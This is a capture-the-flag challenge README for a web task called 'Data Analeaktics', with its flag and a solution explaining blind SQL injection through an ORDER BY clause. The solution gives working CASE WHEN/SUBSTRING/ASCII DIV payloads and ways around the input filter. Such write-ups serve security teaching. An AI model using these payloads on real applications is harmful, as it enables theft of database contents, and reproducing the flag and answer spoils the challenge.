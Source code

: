# Data Analeaktics

| Key            | Value                                                                                                                                     |
|----------------|-------------------------------------------------------------------------------------------------------------------------------------------|
| Challenge Name | Data Analeaktics                                                                                                                          |
| Author         | wolfishLamb                                                                                                                               |
| Category       | Web                                                                                                                                       |
| Description    | Exploring a massive dataset is a headache, and now you're telling me that my flag is leaked?                                              |
| Challenge Type | Dynamic Docker                                                                                                                            |
| Docker Image   | [jaredliw/sunctf_web_data-analeaktics](https://hub.docker.com/repository/docker/jaredliw/sunctf_web_data-analeaktics/general) (port 5004) |
| Flag           | sunctf{1nJ3c7ion_1n_0rd3R_bY_cL@Us3}                                                                                                      |
| Score          | 400                                                                                                                                       |

*File(s) in `attachments/` are distributed to the participants.*

![Screenshot](docs/screenshot.png)

## Solution

A special shoutout to [@dyangeng](https://github.com/dyangeng) for helping me develop this website.

<details>
<summary>Click to expand</summary>

The application accepts user input in the form of a query parameter to sort a list of customers. This input is directly
used in an SQL query, which creates an opportunity for blind SQL injection in the `ORDER BY clause`. The objective is to
manipulate the query to get the flag from the `flag` table.

A general approach to solving this challenge is to use if-else statements to determine the flag character by character.
If the character matches the expected character, we order by `id` column; otherwise, we order by `name` column. A
demonstration:

```sql
SELECT *
FROM customers
ORDER BY
/*                                   Change       v   and  v      to brute force the flag */
    CASE WHEN SUBSTRING((SELECT value FROM flag), 1, 1) = 's' THEN id ELSE name END
LIMIT 10;
```

By looking at the order of records returned, we can determine whether the statement is true or false. This allows us to
brute force the flag by writing a simple script.

Now is to deal with the sanitization.

We can tell from the code provided that `(` and `)` are the only two symbols allowed. Here are some workarounds to
bypass this:

- `SUBSTRING(... FROM 1 FOR 1)` instead of `SUBSTRING(..., 1, 1)`.
- `ASCII(SUBSTRING(...)) DIV <ASCII_CODE_OF_A_CHAR>` instead of comparing with the letter itself. `DIV` performs integer
  division.

How `DIV` works here?

Let's say one of the characters in the flag is `s` (ASCII code 115). We make our guesses from the lowest possible ASCII
printable ` ` (ASCII code 32) all the way up to `~` (ASCII code 126). Notice,

```
ASCII('s') DIV 32 = 3
ASCII('s') DIV 33 = 3
ASCII('s') DIV 34 = 3
...
ASCII('s') DIV 114 = 1
ASCII('s') DIV 115 = 1
ASCII('s') DIV 116 = 0
```

We will first get a false when our guess is one more than the actual ASCII code of the character.

```sql
SELECT *
FROM customers
ORDER BY
/*                                            Change        v     and     vvv      to brute force the flag */
    CASE WHEN ASCII(SUBSTRING((select value from flag) from 1 for 1)) div 116 then id else name end
LIMIT 10;
```

One last sanitation: maximum one space character is allowed.

This can be bypassed by surrounding any subqueries with `()`. Our final payload:

```sql
SELECT *
FROM customers
ORDER BY
/*                                            Change        v     and      vvv     to brute force the flag */
    CASE WHEN (ASCII(SUBSTRING((select(value) from (flag)) from (1) for (1)))) div (116) then (id) else (name) end
LIMIT 10;
```

Finally, write a script to get it done. See [how we do it](docs/solve.py).

> Related: *SQL Injection*

</details>

Note: `docs/solve.py` can be used to check if the challenge is working as intended. It will solve the challenge and get
the flag.
